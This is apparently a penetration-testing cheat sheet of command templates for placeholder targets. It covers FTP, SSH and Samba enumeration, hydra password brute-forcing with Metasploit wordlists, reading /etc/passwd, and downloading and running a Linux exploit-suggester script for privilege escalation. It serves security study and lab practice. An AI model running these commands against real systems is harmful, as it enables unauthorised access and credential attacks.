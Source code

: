 #### FTP

```bash
# FTP
ftp <TARGET_IP>

ls -lah /usr/share/nmap/scripts | grep ftp-*
searchsploit ProFTPD
```

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <TARGET_IP> -t 4 ftp
```

#### SSH

```bash
# SSH
ssh <USER>@<TARGET_IP>

groups sysadmin
cat /etc/*release
uname -r
cat /etc/passwd
find / -name "flag"
```

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt <TARGET_IP> -t 4 ssh
```

#### SAMBA

```bash
# SAMBA
smbmap -u <USER> -p '<PW>' -H <TARGET_IP>

smbclient -L <TARGET_IP> -U <USER>

enum4linux -a <TARGET_IP>
enum4linux -a -u "<USER>" -p "<PW>" <TARGET_IP>
```

```bash
hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <TARGET_IP> smb
```

### Linux Privilege Escalation

#### Kernel

```bash
# LINUX KERNEL
## Linux-Exploit-Suggester Install
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O linux-exploit-suggester.sh

chmod +x linux-exploit-suggester.sh

./linux-exploit-suggester.sh
```
